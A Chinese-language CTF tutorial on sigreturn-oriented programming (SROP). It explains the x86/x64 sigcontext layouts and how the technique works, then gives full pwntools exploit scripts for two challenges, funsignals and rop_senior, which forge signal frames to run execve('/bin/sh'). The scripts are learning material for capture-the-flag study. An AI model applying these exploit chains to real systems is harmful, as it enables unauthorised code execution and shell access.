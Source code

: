 SROP本质是 sigreturn 这个系统调用，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。 

 对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext 。

- x86

```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

- x64

```c
struct _fpstate
{
  /* FPU environment matching the 64-bit FXSAVE layout.  */
  __uint16_t        cwd;
  __uint16_t        swd;
  __uint16_t        ftw;
  __uint16_t        fop;
  __uint64_t        rip;
  __uint64_t        rdp;
  __uint32_t        mxcsr;
  __uint32_t        mxcr_mask;
  struct _fpxreg    _st[8];
  struct _xmmreg    _xmm[16];
  __uint32_t        padding[24];
};

struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short __pad0;
  __uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  __extension__ union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

 signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 77，64 位的系统调用号为 15。



**攻击思路（以64位为例）**

 ![1](.\1.png)

 当系统执行完 sigreturn 系统调用之后，会执行一系列的 pop 指令以便于恢复相应寄存器的值，当执行到 rip 时，就会将程序执行流指向 syscall 地址，根据相应寄存器的值，此时，便会得到一个 shell。 



**system call chains**

这样当每次 syscall 返回的时候，栈指针都会指向下一个 Signal Frame。因此就可以执行一系列的 sigreturn 函数调用。

![2](.\2.png)



**vsyscall中的syscall；ret片段（地址不受alsr影响）**

![3](.\3.png)

**例题1：Backdoor CTF 2017-funsignals（程序本身存在sigreturn片段）**

![4](.\4.png)

直接写入 Signal Frame 即可（先往bss段上写入'/bin/sh'）

exp:

```python
from pwn import*
context.update(os = 'linux', arch = 'amd64')
context.log_level= 'debug'
p = process('./funsignals')
#gdb.attach(p,'b *0x1000000B')
syscall_addr = 0x1000000B
new_stack_addr = 0x10000000+0x500
sh_addr = new_stack_addr+0x100
frameExecve = SigreturnFrame()				
frameExecve.rax = 0
frameExecve.rdi = 0
frameExecve.rsi = new_stack_addr
frameExecve.rdx = 0x200
frameExecve.rip = syscall_addr
frameExecve.rsp = new_stack_addr
payload = str(frameExecve)
p.send(payload)

frameExecve = SigreturnFrame()				
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = sh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr

payload = str(frameExecve).ljust(0x100,'\x00')+'/bin/sh\x00'
sleep(1)
p.send(payload)

p.interactive()
```



例题2：hgame2021 week4 rop_senior（需要通过read函数的返值来控制rax进而实现sigreturn）

漏洞函数及其汇编

![5](.\5.png)



![6](.\6.png)

思路：先往栈上写入一个Signal Frame（实现往bss段上写入数据），通过read实现控制rax进而实现sigreturn，后续思路与之前一直，不过是Signal Frame变成实现execve("/bin/sh",0,0)。

exp：

```python
from pwn import*
context.log_level = 'debug'
context.update(os = 'linux', arch = 'amd64')

p =  process('./rop_senior')
read_addr = 0x40063A
syscall_addr = 0x400647
vuln = 0x40062A
new_stack_addr = 0x601000 + 0x500
sh_addr = new_stack_addr+0x120
#gdb.attach(p,'b *0x40064A')
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_read
frameExecve.rdi = 0
frameExecve.rsi = new_stack_addr
frameExecve.rdx = 0x400
frameExecve.rip = syscall_addr
frameExecve.rsp = new_stack_addr
payload = p64(0)+p64(read_addr)+p64(syscall_addr)+'\x00'*8+str(frameExecve)
p.sendafter('best',payload)
sleep(1)
#pause()
payload = p64(0)+p32(syscall_addr)
payload = payload.ljust(15,'\x00')
p.send(payload)
sleep(1)
#pause()
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = sh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr
payload = p64(0)+p64(read_addr)+p64(syscall_addr)+'\x00'*8+str(frameExecve).ljust(0x100,'\x00')+'/bin/sh\x00'
p.send(payload)
sleep(1)
#pause()
payload = p64(0)+p32(syscall_addr)
payload = payload.ljust(15,'\x00')
p.send(payload)
p.interactive()
```

